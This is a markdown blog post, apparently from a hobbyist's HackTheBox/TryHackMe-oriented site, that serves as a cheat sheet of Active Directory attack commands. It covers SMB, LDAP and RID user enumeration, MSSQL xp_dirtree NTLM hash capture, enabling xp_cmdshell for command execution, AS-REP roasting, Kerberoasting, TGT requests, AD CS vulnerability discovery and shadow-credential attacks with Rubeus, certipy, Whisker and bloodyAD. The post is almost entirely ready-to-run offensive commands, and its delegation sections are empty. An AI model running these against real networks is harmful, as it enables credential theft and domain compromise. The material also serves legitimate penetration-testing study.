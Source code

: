 ```yaml
---
title: "CheatSheet - Active Directory Attacks"
author: Nasrallah
description: ""
date: 2025-07-21 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, windows]
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## User Enumeration

```bash
nxc smb 10.10.10.10 -u user -p password --users
nxc smb 10.10.10.10 -u user -p password --rid-brute
```

```bash
rpcclient $> enumdomusers
```

## **SMB**

Smb authentication.

```bash
nxc smb 10.10.10.10 -u user -p password
```

List shares

```bash
nxc smb 10.10.10.10 -u user -p password --shares -M spider_plus
```

```bash
smbclient -L 10.10.10.10 -U user -N
```

## **LDAP**

Anonymous login

```bash
ldapsearch -H 'ldap://htb.local/' -x -b "dc=htb,dc=local" '(objectClass=person)'
```

Creds

```bash
ldapsearch -x -H ldap://cicada.htb -D user@cicada.htb -w 'password' -b "DC=cicada,DC=htb"
```

## MSSQL

### XP_DIRTREE

List a directory with `xp_dirtree`.

```shell
exec master.sys.xp_dirtree 'c:\', 1, 1;
```

Get NetNTMLv2 hash

```bash
xp_dirtree \\10.10.10.10\share
```

### Command execution

Check admin privileges: `1=true=admin`.

```bash
SELECT is_srvrolemember('sysadmin');
```

Enable `xp_cmdshell` manually.

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Impacket auto-enable.

```bash
enable_xp_cmdshell
```

Executing commands.

```bash
xp_cmdshell "whoami"
```

```bash
nxc mssql manager.htb -u operator -p operator -x whoami
```

```bash
nxc mssql domain.local -u user -p pass -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## **Attacking Kerberos**

### **AS-Rep Roasting**

```bash
nxc ldap 10.10.10.161 -u '' -p ''  --asreproast hashes.txt
```

```bash
GetNPUsers.py 'htb.local/' -usersfile users.txt -no-pass -dc-ip 10.10.10.161
```

```shell
rubeus.exe asreproast /format:hashcat /nowrap
```

### **Kerberoasting**

```bash
GetUserSPNs.py -request -dc-ip 10.10.10.10 'DOMAIN/user:password' -outputfile hashes.txt
```

```bash
nxc ldap 10.10.10.10. -u user -p password --kerberoasting hashes.txt
```

```shell
rubeus.exe kerberoast /nowrap
```

### **Pass The Ticket**

#### Generating TGTs

```bash
getTGT.py 'domain.local/user' -dc-ip 10.10.11.45 -p 'password'
```

```bash
nxc smb domain -u user -p password --generate-tgt user
```

## AD CS

[AD CS - Privilege-Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

```bash
certipy find -vulnerable -u user -p password -dc-ip 10.10.11.72 -stdout
```

```shell
certify.exe find /vulnerable
```

```bash
nxc ldap 10.10.10.10 -u user -p pass -M adcs
```

## Shadow Credentials

### Windows

```shell
Whisker.exe add /target:sflowers /password:siriussirius /path:cert.pfx
```

```shell
Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"siriussirius" /domain:domain.local /dc:DC.domain.local /getcredentials /show
```

### Linux

```bash
certipy shadow auto -account {target_user} -u 'user@domain.local' -p 'password' -dc-ip 10.129.135.59
```

```bash
bloodyAD --host domain.local -d domain.local -u user -p password add shadowCredentials {target_user}
```

## Delegation

### Constrained Delegation

### Unconstrained Delegation

### Resource Based Constrained Delegation

## **References**

<https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation>
